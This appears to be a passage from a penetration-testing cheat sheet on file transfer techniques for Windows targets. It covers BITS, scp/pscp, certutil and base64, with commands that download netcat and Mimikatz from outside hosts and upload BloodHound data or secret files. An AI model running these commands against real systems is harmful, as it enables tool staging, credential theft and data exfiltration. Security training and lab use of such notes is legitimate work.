 Download: 

```powershell
Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```


Upload, specifying a proxy server:


```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```


## scp / pscp.exe

Upload:

`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`

Download:

`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`

Upload:

`pscp.exe C:\Users\Public\info.txt user@target:/tmp/info.txt`

Download: 

`pscp.exe user@target:/home/user/secret.txt C:\Users\Public\secret.txt`


## certutil.exe

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1`

Links:

https://twitter.com/subtee/status/888122309852016641?lang=en


`certutil.exe -verifyctl -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1`

Links:

https://twitter.com/egre55/status/1087685529016193025


## base64

`cat binary | base64 -w 0`

`echo <base64> | base64 -d > binary`

